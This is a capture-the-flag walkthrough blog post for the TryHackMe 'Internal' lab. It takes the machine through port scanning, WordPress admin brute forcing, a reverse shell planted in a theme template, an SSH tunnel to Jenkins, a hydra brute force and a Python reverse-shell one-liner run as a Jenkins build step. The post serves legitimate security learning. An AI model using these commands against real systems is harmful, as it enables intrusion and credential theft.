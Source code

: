 ```yaml
---
title: "TryHackMe - Internal - Walkthrough"
date: 2020-12-07T09:34:30-04:00
categories:
  - blog
tags:
  - learning
  - internal
  - tryhackme
  - walkthrough
---
```


This is a walkthrough of the [TryHackMe][thm] room: [Internal][internal]. Let’s get started!

This room is designed to be as close to a “real-world” pentest as possible. It comes with a Scope of Work (SOW) so make sure to read through that, and understand it. Then let’s start with enumeration.

# User Flag
Let’s start by scanning the server using rustscan. This is a much faster scanner than `nmap`, and I like using it because it scans all 65535 ports and then passes the open ones to `nmap`. You can find more about it [here][rustscan].

rustscan command: `rustscan -a <machine_ip> -- -A -A`

![i1](/assets/images/thm/internal/i1.webp)

Looks like we have 22 and 80 open. Let’s visit the website!

![i2](/assets/images/thm/internal/i2.webp)

Looks like we have a default page. We can run `dirsearch` to enumerate directories.

`dirsearch -u http://<machine_ip> -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -e html,php -t 100`

Right away we find a few options. Let’s check them out.
**NOTE:** Make sure to add the `<machine_ip> internal.thm` to your `/etc/hosts` file or some of the sites may not work.

We find a `/wordpress` directory. When we navigate there, we find a link for a login page.

![i3](/assets/images/thm/internal/i3.webp)

At `/blog` we find the blog page of the wordpress site. There also is a `/phpmyadmin` page. Wow! Lot’s to work with here. I am going to leave `dirsearch` running in the background and start with WordPress. Let’s scan it! I am going to use `wpscan` for this. This can be found [here][wpscan].

`wpscan --url http://internal.thm/wordpress -e u`

![i4](/assets/images/thm/internal/i4.png)

If you take a look at the enumerated users, we see an `admin` user. Let’s see if we can brute force the login!

`wpscan --url http://internal.thm/wordpress -U admin -P rockyou.txt`

![i6](/assets/images/thm/internal/i6.png)

Let’s login!

Once we login, we know we can always do a reverse shell! Let’s get the reverse-shell from [here][rev-sheet]. Change the IP and Port.

Now navigate to the **Theme Editor**. Select **404 Template** from the **Theme Files**

Paste in your reverse-shell code. Start a netcat listener. `nc -nvlp 1234`

Navigate to:

`http://internal.thm/wordpress/wp-content/themes/twentyseventeen/404.php`

Let’s just start by looking around. I stumble upon the `/opt` folder and there is an interesting file: `wp-save.txt` We find some credentials in here!

![i8](/assets/images/thm/internal/i8.png)

Let’s try to ssh into the machine with those credentials!

We are in! Let’s see if there is a `user.txt` flag!

![i9](/assets/images/thm/internal/i9.png)

# Root Flag
Now we need to do some privilege escalation. Let’s use [LinPEAS][linpeas] for this! Get it onto the system by starting a python http server:

`python3 -m http.server 80`

And then download onto the server with `wget`

`wget http://<thm_ip>/lin.sh`

Make sure to `chmod +x lin.sh` and then run it: `./lin.sh`

That didn’t come back with a ton of useful info, but there was a lot there. I did see a `jenkins.txt` in the `/home/aubreanna` directory earlier.

![i10](/assets/images/thm/internal/i10.png)

We may be able to access this with `ssh` tunneling! On our machine:

`ssh -L 1235:172.17.0.2:8080 aubreanna@<machine_ip>`

In your browser, navigate to: `localhost:1235`

We have a login page!

![i11](/assets/images/thm/internal/i11.png)

Let’s checkout a POST request to the server. We can try to brute force the login with `hydra`

![i12](/assets/images/thm/internal/i12.png)

Use this info to create our `hydra` command:

```bash
hydra -l admin -P rockyou.txt 127.0.0.1 -s 1235 -V -f http-form-post "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in:Invalid username or password"
```

We found credentials!

![i13](/assets/images/thm/internal/i13.png)

Login with those credentials. Let’s create a New Project. Name it whatever you want, and navigate to the **Build** tab and select: **Execute shell**. Now let’s have Jenkins execute a reverse shell back to our machine (If one doesn’t work, there are many others you can try: [Link][rev-sheet]):

```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<machine_ip",2345));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

**Save** this build. Now start a netcat listener on your machine: `nc -lvnp 2345`

Select **Build Now** in **Jenkins**.

Success! Now let’s look around! Eventually, we find a `note.txt` in `/opt`

![i14](/assets/images/thm/internal/i14.webp)

Let’s `ssh` into the machine with the `root` credentials!

Now let’s print the `root.txt` flag!

![i15](/assets/images/thm/internal/i15.png)

# Review
Wow. That is all I can say. This was definitely a tough one for me and took a ton of patience and looking around. Not only with the various points of entry that can eat up a lot of time, but also having to research some new ways to exploit the machine! Great job to the creator: TheMayor!

# References
[TryHackMe][thm] | [Internal Room][internal] | [Rustscan][rustscan] | [WPScan][wpscan] | [LinPEAS][linpeas] | [Reverse Shell Cheat Sheet][rev-sheet]

[thm]: https://tryhackme.com
[internal]: https://tryhackme.com/r/room/internal
[rustscan]: https://github.com/RustScan/RustScan
[wpscan]: https://github.com/wpscanteam/wpscan
[linpeas]: https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS
[rev-sheet]: https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet